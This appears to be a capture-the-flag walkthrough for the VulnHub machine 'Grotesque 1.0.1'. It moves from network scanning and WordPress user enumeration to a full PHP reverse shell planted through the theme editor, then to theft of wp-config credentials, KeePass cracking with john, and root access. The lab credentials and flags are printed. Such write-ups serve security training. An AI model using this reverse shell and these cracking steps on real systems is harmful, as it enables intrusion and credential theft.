:::::::::::::::::::::::::::::::::::::::::::::::: page
# Grotesque: 1.0.1 {#grotesque-1.0.1 .title}

\

## 

## Grotesque: 1.0.1

- **[Grotesque: 1.0.1]{style="color:#ffbe6f;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/grotesque-101,658/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#ff7800;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.139
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.139
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.139 
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.139
:::



1.  [Web Enumeration]{style="color:#ff7800;"} :

- IP visit in browser with port 66 : <http://192.168.2.139:66/>

<!-- -->

- View the source code :



- Decode the value : <https://www.dcode.fr/brainfuck-language>



- Visit the endpoints : <http://192.168.2.139:66/sshpasswd.png>



- In port 66 reveals a zip file to download the whole project :
  <http://192.168.2.139:66/>

 

- Unzip the file :

::: codebox
    unzip vvmlist.zip
:::



- Navigate the vvmlist.github.io directory :

::: codebox
    cd vvmlist.github.io
:::



- Read and analyze \_vvmlist directory :

::: codebox
    cat _vvmlist/* | sort | uniq
:::

 Found the wordpress endpoints on port 80 .

- Visit the endpoints in port 80 : <http://192.168.2.139/lyricsblog/>

<!-- -->

- Directory brute force in /lyricsblog endpoints :

::: codebox
    gobuster dir -u http://192.168.2.139/lyricsblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
:::



- Visit the wp-admin endpoints :
  <http://192.168.2.139/lyricsblog/wp-admin/>

 Found the wordpress login page .

- Find the username with wpscan :

::: codebox
    wpscan --url http://192.168.2.139/lyricsblog --enumerate u
:::



- Found the username :

::: codebox
    erdalkomurcu
:::

- Now again visit /lyricsblog endpoints :



- Check the content :



- Make a file and paste the content :

::: codebox
    nano test.txt
:::



- Now cracked the file with md5sum :

::: codebox
    md5sum test.txt
:::



- Now login the wordpress :
  <http://192.168.2.139/lyricsblog/wp-login.php>

::: codebox
    Username : erdalkomurcu
    Password : BC78C6AB38E114D6135409E44F7CDDA2
:::



- Successfully login the wordpress :
  <http://192.168.2.139/lyricsblog/wp-admin/>



1.  [Reverse Shell]{style="color:#ff7800;"} :

- After login the wordpress visit the file :

::: codebox
    Appearance -> Theme File editor -> archive.php
:::



- Replace the content with the reverse shell :

::: codebox
    <?php

    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '192.168.2.219';  // CHANGE THIS
    $port = 443;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;

    //
    // Daemonise ourself if possible to avoid zombies later
    //

    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
      // Fork and have the parent process exit
      $pid = pcntl_fork();
      
      if ($pid == -1) {
         printit("ERROR: Can't fork");
           exit(1);
      }
     
      if ($pid) {
           exit(0);  // Parent exits
     }

       // Make the current process a session leader
      // Will only succeed if we forked
     if (posix_setsid() == -1) {
           printit("Error: Can't setsid()");
           exit(1);
      }

       $daemon = 1;
    } else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }

    // Change to a safe directory
    chdir("/");

    // Remove any umask we inherited
    umask(0);

    //
    // Do the reverse shell...
    //

    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
    }

    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );

    $process = proc_open($shell, $descriptorspec, $pipes);

    if (!is_resource($process)) {
      printit("ERROR: Can't spawn shell");
        exit(1);
    }

    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);

    printit("Successfully opened reverse shell to $ip:$port");

    while (1) {
       // Check for end of TCP connection
        if (feof($sock)) {
            printit("ERROR: Shell connection terminated");
          break;
        }

       // Check for end of STDOUT
        if (feof($pipes[1])) {
            printit("ERROR: Shell process terminated");
         break;
        }

       // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
     $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
       // data to process's STDIN
        if (in_array($sock, $read_a)) {
           if ($debug) printit("SOCK READ");
           $input = fread($sock, $chunk_size);
           if ($debug) printit("SOCK: $input");
            fwrite($pipes[0], $input);
        }

       // If we can read from the process's STDOUT
       // send data down tcp connection
      if (in_array($pipes[1], $read_a)) {
           if ($debug) printit("STDOUT READ");
         $input = fread($pipes[1], $chunk_size);
           if ($debug) printit("STDOUT: $input");
          fwrite($sock, $input);
        }

       // If we can read from the process's STDERR
       // send data down tcp connection
      if (in_array($pipes[2], $read_a)) {
           if ($debug) printit("STDERR READ");
         $input = fread($pipes[2], $chunk_size);
           if ($debug) printit("STDERR: $input");
          fwrite($sock, $input);
        }
    }

    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);

    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
       if (!$daemon) {
           print "$string\n";
      }
    }

    ?> 
:::



- Start the listener :

::: codebox
    nc -nlvp 443
:::

- Now to run the reverse shell visit :

::: codebox
    http://192.168.2.139/lyricsblog/wp-content/themes/twentytwentyone/archive.php
:::

- Finally got the shell :



1.  [Privilege Escalation]{style="color:#ff7800;"} :

- Navigate the directory :

::: codebox
    cd /var/www/html/lyricsblog
:::

- Check the file list :

::: codebox
    ls -lh
:::



- Read the wp-config.php file :

::: codebox
    cat wp-config.php
:::



- Found the username and password :

::: codebox
    Username : raphael
    Password : _double_trouble_
:::

- Switch the user :

::: codebox
    su raphael
:::



- Stable the shell :

::: codebox
    python3 -c 'import pty; pty.spawn("/bin/bash")'
:::



- Check the hidden files :

::: codebox
    ls -lha
:::



- Now hidden file transfer in kali with the python server :

::: codebox
    python3 -m http.server 8080
:::



- Download the .chadroot.kdbx file :

::: codebox
    wget http://192.168.2.139:8080/.chadroot.kdbx
:::



- Find the hash and cracked KeePass database :

::: codebox
    keepass2john .chadroot.kdbx > keepass.hash
:::



- Cracked the file with the john :

::: codebox
    john keepass.hash --wordlist=/opt/rockyou.txt
:::



- Open the KeePass database :

::: codebox
    kpcli --kdb .chadroot.kdbx
:::



- Check file entries :

::: codebox
    ls
:::

- Navigate the directory :

::: codebox
    cd /secret
:::

- Check the file entries :

::: codebox
    ls
:::



- Every file content show :

::: codebox
    show 0
:::

- 

::: codebox
    show 1
:::

- 

::: codebox
    show 2
:::

- 

::: codebox
    show 3
:::

 

- Found 4 root username and password :

  Username   Password
  ---------- ------------------
  root       .:.yarak.:.
  root       secretservice
  root       .:.subjective.:.
  root       rockyou.txt

- Switch the root user :

::: codebox
    su root
:::



- Check file list :

::: codebox
    ls -lh
:::

- Read the user file :

::: codebox
    cat user.txt
:::

- User Flag :

::: codebox
    F6ACB21652E095630BB1BEBD1E587FE7
:::



- Navigate the /root directory :

::: codebox
    cd /root
:::

- Check the file list :

::: codebox
    ls -lh
:::

- Read the root.txt file :

::: codebox
    cat root.txt
:::

- Root Flag :

::: codebox
    AF7DD472654CBBCF87D3D7F509CB9862
:::


::::::::::::::::::::::::::::::::::::::::::::::::
